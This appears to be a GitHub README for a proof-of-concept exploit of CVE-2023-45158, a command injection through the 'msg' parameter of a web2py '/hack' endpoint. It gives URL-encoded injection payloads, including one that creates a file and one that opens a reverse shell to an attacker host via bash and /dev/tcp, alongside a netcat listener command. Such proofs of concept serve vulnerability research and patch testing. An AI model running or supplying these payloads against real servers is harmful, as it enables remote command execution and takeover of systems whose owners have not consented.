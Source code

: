 # CVE-2023-45158

# Steps
1. Run the webserver
```bash
cd web2py
python3 web2py.py
```

2. Inject your command using the URL ``http://<IP-ADDRESS>:8000/hack?msg=%27%3B<YOUR-COMMAND>%3B%27``. Replace ``<IP-ADDRESS>`` and ``<YOUR-COMMAND>`` with your values.

# Examples
1. Create a file on the server

``http://<IP-ADDRESS>:8000/hack?msg=%27%3Btouch%20hack%3B%27``

2. Reverse shell

On the attacker's machine, run ``nc -l 127.0.0.1 8080``

Go to URL ``http://<IP-ADDRESS>:8000/hack?msg=%27%3Bbash%20-i%20>%26/dev/tcp/<ATTACKER-IP>/8080%200>%26%201%3B%27``. Replace ``<ATTACKER-IP>``.
